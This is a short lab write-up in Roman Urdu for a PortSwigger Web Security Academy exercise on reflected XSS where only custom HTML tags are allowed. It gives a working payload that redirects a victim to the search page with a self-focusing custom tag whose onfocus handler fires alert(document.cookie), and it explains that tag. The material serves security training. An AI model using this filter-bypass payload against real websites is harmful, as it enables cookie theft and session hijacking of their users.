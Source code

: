 # 💻 Yeh kis tarah ki technique thi?

## 🔍 Lab ka Naam:
**Reflected XSS into HTML context with all tags blocked except custom ones**

---

## 🧠 Lab ka Maqsad:
Yeh lab hum se chahta hai ke hum XSS inject karein ek aise page mein jahan:
- **Sab normal HTML tags block** ho jaate hain (jaise <script>, ```<img>```, ```<svg>```)
- Lekin **custom tags** jaise `<xss>`, `<khan>` allowed hain
- Humein aisa payload banana hai jo **alert(document.cookie)** ko fire kare — taake victim ki cookies browser se nikaali ja sakein

---

## 🧪 Working Payload (Exploit server mein daalna hai):

```html```

```<script>```

```location =``` ```'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';```

```</script>```

---

🔁 Bas apne lab ki URL daal dena YOUR-LAB-ID ki jagah
Yehi payload use hoga victim ko XSS dene ke liye ✅

### 🔍 Payload Ki Tashreeh

```<khan id="x" onfocus="alert(document.cookie)" tabindex="1">The King</khan>```
